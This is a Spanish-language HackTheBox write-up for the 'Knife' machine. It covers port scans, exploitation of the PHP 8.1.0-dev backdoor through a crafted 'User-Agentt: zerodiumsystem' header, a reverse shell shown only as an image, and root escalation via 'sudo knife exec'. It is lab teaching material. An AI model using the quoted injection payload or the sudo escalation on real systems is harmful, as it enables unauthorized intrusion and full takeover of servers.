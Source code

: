 ```yaml
---
published: true
title: HackTheBox - Knife [WriteUp OSCP style]
date: '2021-07-08'
category: HackTheBox
description: WriteUp de la Máquina Knife de HackTheBox
---
```

![image-center](/assets/images/Knife_HTB/Knife_Infocard.png)

## Reconocimiento Inicial 
Comenzaremos realizando un escaneo con ```nmap``` mediante el siguiente comando para la enumeración de puertos de la máquina

```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -vvv 10.10.10.242 -oG allports
```
Del cual obtenemos los siguientes resultados

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 17:59 -04
Initiating SYN Stealth Scan at 17:59
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 18:00, 34.31s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (4.4s latency).
Scanned at 2021-07-07 17:59:47 -04 for 34s
Not shown: 65249 filtered ports, 284 closed ports
Reason: 65249 no-responses and 284 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 34.46 seconds
           Raw packets sent: 131046 (5.766MB) | Rcvd: 296 (11.888KB)
```
Ya sabemos que nuestra máquina posee dos puertos abiertos, el 22 y el 80, por lo que ahora toca realizar un escaneo de las versiones de estos puertos para ver que información nos entrega

```bash
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```
Obteniendo lo siguiente
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 18:20 -04
Nmap scan report for 10.10.10.242
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.91 seconds
```

Si accedemos a la página que nos indica el puerto 80, nos encontramos con lo siguiente
![image](/assets/images/Knife_HTB/Knife-pagina.png)

Mediante el uso de ```Wappalyzer``` podemos ver que la página tiene como servidor web un Apache 2.4.41 y como lenguaje de programación un PHP 8.1-dev.
Buscando en internet por alguna vulnerabilidad posible, me encuentro que existe una vulnerabilidad que permite un Backdoor Remote Command Injection 
[https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html)

Si analizamos el código que se menciona en el artículo podemos ver que en la función ```execCmd``` la linea ```r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})``` es la que ejecuta el comando en el servidor y nos devuelve la respuesta del comando que indicamos ejecutar, un ejemplo de uso se muestra a continuación

![image](/assets/images/Knife_HTB/resutlados_script.png)

Con esto claro podemos utilizar el código tal cual está o retocarlo un poco para hacer que solamente nos realice una Reverse Shell a nuestro equipo de atacante. En mi caso lo retoque un poco tal que solamente ejecute la reverse shell para obtener acceso quedando de la siguiente forma
![image](/assets/images/Knife_HTB/script-knife.png)

De este modo ya tenemos acceso al sistema, ahora toca realizar un tratamiento de la tty.

## User Flag

Una vez realizado el tratamiento, ejecute los comandos ```whoami``` y ```id``` obteniendo lo siguiente
```bash
james@knife:~$ whoami
james
james@knife:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:~$
```
con esto ya sabemos que tenemos el usuario james y podemos ir a buscar la bandera como se muestra en la imagen
![imagen](/assets/images/Knife_HTB/userflag.png)

## PrivEsc y Root Flag

Realizando una enumeración básica de privilegios ```sudo -l``` encontramos la siguiente respuesta
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 

```
[Knife](https://docs.chef.io/workstation/knife/) es una herramienta de línea de comandos que proporciona una interfaz entre un repositorio de Chef local y el Chef Infra Server la cual esta contruida en Ruby. Esta posee distintas funciones y herramientas pero nos enfocaremos en una llamada ```exec```. La cual nos permite ejecutar codigos o scripts hechos en Ruby. Indagando un poco en internet encontre esta [página](https://www.hacknos.com/perl-python-ruby-privilege-escalation-linux/) la cual indica como se puede realizar una elevación de privilegios con Ruby.

Por lo tanto y con esta información en nuestra mente ejecutamos esta linea de comandos
```bash
james@knife:~$ sudo knife exec
```
la cual nos abrira un editor donde podemos escribir el comando de ruby y ejecutarlo mediante ```ctrl+D```.
```bash
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash";
root@knife:/home/james# 
```
Y con esto ya somos root y podemos ir por la flag
```bash
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/home/james# 
```
